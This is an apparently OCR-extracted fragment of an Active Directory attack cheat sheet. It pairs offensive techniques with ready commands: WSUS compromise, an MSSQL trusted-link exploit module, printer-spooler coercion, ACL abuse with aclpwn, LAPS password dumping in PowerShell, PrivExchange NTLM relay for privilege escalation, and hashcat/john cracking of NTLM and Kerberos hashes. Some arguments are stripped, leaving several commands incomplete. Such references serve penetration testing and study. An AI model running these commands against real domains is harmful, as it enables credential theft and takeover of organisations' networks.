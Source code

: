 WSUSpect

    WSUSpendu.ps1 # need compromised WSUS server

sccm

    CMPivot

MSSQL Trusted Links

    use exploit/windows/mssql/mssql_linkcrawler

Printers spooler service abuse

    rpcdump.py /:@ | grep MS-RPRN
        printerbug.py ‘/:’@

AD acl abuse

    aclpwn.py
        GenericAll on User
        GenericAll on Group
        GenericAll / GenericWrite / Write on Computer
        WriteProperty on Group
        Self (Self-Membership) on Group
        WriteProperty (Self-Membership)
        ForceChangePassword
        WriteOwner on Group
        GenericWrite on User
        WriteDACL + WriteOwner

GPO Delegation
get laps passwords

    Get-LAPSPasswords -DomainController -Credential \ | Format-Table -AutoSize
    foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}

privexchange

    python privexchange.py -ah -u -d -p
        ntlmrelayx.py -t ldap://–escalate-user

ADCS
find hash
crack hash

    LM
        john –format=lm hash.txt
        hashcat -m 3000 -a 3 hash.txt
    NTLM
        john –format=nt hash.txt
        hashcat -m 1000 -a 3 hash.txt
    NTLMv1
        john –format=netntlm hash.txt
        hashcat -m 5500 -a 3 hash.txt
    NTLMv2
        john –format=netntlmv2 hash.txt
        hashcat -m 5600 -a 0 hash.txt rockyou.txt
    Kerberos 5 TGS
        john spn.txt –format=krb5tgs –wordlist=rockyou.txt
        hashcat -m 13100 -a 0 spn.txt rockyou.txt
    Kerberos ASREP
        hashcat -m 18200 -a 0 AS-REP_roast-hashes rockyou.txt
